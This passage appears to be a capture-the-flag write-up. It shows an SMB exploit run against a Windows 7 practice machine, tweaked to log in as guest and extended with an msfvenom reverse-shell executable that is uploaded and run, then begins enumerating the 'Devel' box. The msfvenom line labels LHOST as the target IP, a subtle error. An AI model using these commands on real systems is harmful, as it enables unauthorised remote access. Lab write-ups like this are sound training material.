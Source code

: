 After downloading the necessary module, running the exploit returns:
```
Target OS: Windows 7 Professional 7601 Service Pack 1
Not found accessible named pipe
Done
```

As the script, by default, tries all standard named pipes, this appears to be a permissions issue. Let's try  to have the script connect as `guest`, a `BUILTIN` default account. To do this, we edit the following lines of our exploit:
```
USERNAME = 'guest'
PASSWORD = ''
```

When we attempt to run the exploit again, we see that the exploit has successfully run:
```
...
creating file c:\pwned.txt on the target
...
```

Now, we simply need to change the script (lines ~928-930) to uncomment the commands for executing a reverse shell:
```
#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')

#service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
```

Then we create our reverse shell executable with msfvenom:
```
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=<target-ip> LPORT=4321 > NotAnExploit.exe
```

Here is our new script text:
```
smb_send_file(smbConn, 'NotAnExploit.exe', 'C', '/NotAnExploit.exe')
service_exec(conn, r'cmd /c C:\NotAnExploit.exe')
```

With this completed, we should get a reverse shell back when running the exploit!

## Devel
Completing this box involves FTP and web server exploitation, paired with a flexible privilege escalation portion, which allows for a variety of vectors to be utilized. As this machine is old (2050 days older at the time of publication!) and I need practice with kernel exploits, I've chosen this route.

### Enumeration

#### nmap
```
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
```
